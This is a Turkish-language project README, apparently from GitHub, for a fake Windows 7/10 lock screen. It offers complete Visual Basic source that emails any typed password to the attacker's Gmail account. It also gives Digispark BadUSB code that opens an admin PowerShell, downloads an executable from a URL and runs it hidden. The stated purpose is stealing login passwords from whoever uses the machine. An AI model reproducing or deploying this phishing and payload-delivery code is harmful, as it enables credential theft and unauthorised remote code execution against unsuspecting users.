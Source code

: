 # WindowsFakeLockScreen

<strong>WIN7 OR WIN10 FAKE LOCK SCREEN MAIL SENDING</strong>

<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

<li>Amaç:</li>
<li>BadUSB yani Digispark bilgisayara takılır</li></li>
<li>Belirli kodlar çalışır</li>
<li>sahte login ekranı oluşur</li>
<li>Son olarak girilen şifre belirlediğimiz mail adresine gönderilir</li>



Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<blockquote>
<p><strong>NOT:</strong></p>
<p>Kaynak kodlar içerisindeki belirttiğim kısımları kendinize göre doldurun sizden sadece mail adresi ve şifresi istenmekte</p>
</blockquote>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("mailadress@gmail.com")
                MyMailMessage.To.Add("mailadress@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("mailadress@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.

<strong>Digispark kodları</strong>

<code><pre>#define kbd_tr_tr
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  //coder sefaoruc
  //youtube youtube.com/siberdunya
  //bu kodlar win10 için sahte bir login sayfası oluşturur
  //fake lock screen win10
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print(F("powershell Start-Process powershell -Verb runAs"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT ,KEY_Y);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("Invoke-WebRequest -Uri ('DOWNLOAD_URL') -O C:/fakelock.exe"));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("powershell -windowstyle hidden 'C:/fakelock.exe'");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*son*/
  }
}
</code></pre>

Digispark kodlarını da bu şekilde oluşturdum

Mantık Powershell admin olarak başlatmak ve upload ettiğimiz win7 veya win10 exe dosyasını indirip çalıştırmaktır.


